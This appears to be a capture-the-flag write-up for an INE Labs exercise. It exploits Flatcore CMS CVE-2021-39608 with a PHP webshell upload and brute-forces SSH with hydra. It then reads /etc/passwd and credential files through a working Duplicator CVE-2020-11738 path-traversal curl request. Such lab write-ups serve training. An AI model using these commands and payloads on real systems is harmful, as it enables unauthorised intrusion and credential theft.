





# Exploitation CTF 1 — INE Labs

| Field      | Value              |
|------------|--------------------|
| Platform   | INE Labs           |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | Flatcore CMS CVE-2021-39608, WordPress, Duplicator plugin path traversal, CVE-2020-11738, hydra SSH |

---

## Part 1 — Flatcore CMS RCE

### Reconnaissance

nmap against `target1.ine.local` revealed ports **80 (HTTP)** and **2222 (SSH)**. The web server hosted **Flatcore CMS version 2.0.7**.

Flatcore 2.0.7 is vulnerable to **CVE-2021-39608** — an authenticated file upload that allows uploading a PHP webshell via the plugin/addon upload functionality in the admin panel.

### Exploitation — CVE-2021-39608

The exploit authenticates to the Flatcore admin panel, uploads a PHP webshell (`sgizoid.php`) to `/upload/plugins/`, and provides an interactive pseudo-shell via `shell_exec`. It cleans up after itself by deleting the webshell and logging out.

```bash
python3 cve-2021-39608.py 'http://target1.ine.local' 'admin' 'password'
```

The exploit code:
1. POSTs to `/index.php?p=1` to authenticate and grab the PHP session cookie
2. Retrieves the CSRF token from the addon upload page
3. Uploads the webshell via `/acp/core/files.upload-script.php`
4. Sends commands via GET requests to `sgizoid.php?sg=<command>`
5. Deletes the webshell after use

Shell landed as a restricted web user. Enumerated system users:

```bash
$ ls /home
iamaweakuser
```

### SSH Brute Force

Brute-forced SSH on port 2222 for the discovered user:

```bash
hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
  -t 4 -s 2222 target1.ine.local ssh
```

Recovered the SSH password for `iamaweakuser`.

---

## Part 2 — WordPress Duplicator Plugin Path Traversal

### Reconnaissance

nmap against `target2.ine.local` revealed ports **80 (HTTP)** and **22 (SSH)**. Web server hosted a **WordPress** installation.

### Plugin Enumeration

Used gobuster with a WordPress plugin wordlist to enumerate installed plugins:

```bash
gobuster dir -u http://target2.ine.local/wp-content/plugins/ \
  -w /usr/share/nmap/nselib/data/wp-plugins.lst
```





Found the **Duplicator** plugin. Checked its version via the readme:

```
http://target2.ine.local/wp-content/plugins/duplicator/readme.txt
# Stable tag: 1.3.26
```

Duplicator **1.3.26** is vulnerable to **CVE-2020-11738** — an unauthenticated path traversal that allows reading arbitrary files from the server.

### Exploitation — CVE-2020-11738

```bash
curl -s "http://target2.ine.local/wp-admin/admin-ajax.php?action=duplicator_download&file=/../../../../../../etc/passwd"
```





The `file=` parameter was not sanitized, allowing directory traversal to read any file the web server user could access — including `/etc/passwd`, `wp-config.php` (containing database credentials), and SSH keys.



---

## Key Takeaways

**Flatcore CVE-2021-39608 requires admin credentials but bypasses file upload restrictions.** If default credentials (`admin:admin`, `admin:password`) work on a CMS, the upload restriction becomes irrelevant — authenticated file upload CVEs are common across all CMS platforms.

**Always enumerate WordPress plugins.** The core WordPress installation is often patched, but third-party plugins lag behind. A wordlist-based gobuster scan against `/wp-content/plugins/` reveals installed plugins; check each version against CVE databases.

**Duplicator path traversal is unauthenticated.** CVE-2020-11738 requires no credentials — just a GET request. `wp-config.php` via this path leaks database credentials, which often reappear as system user passwords.
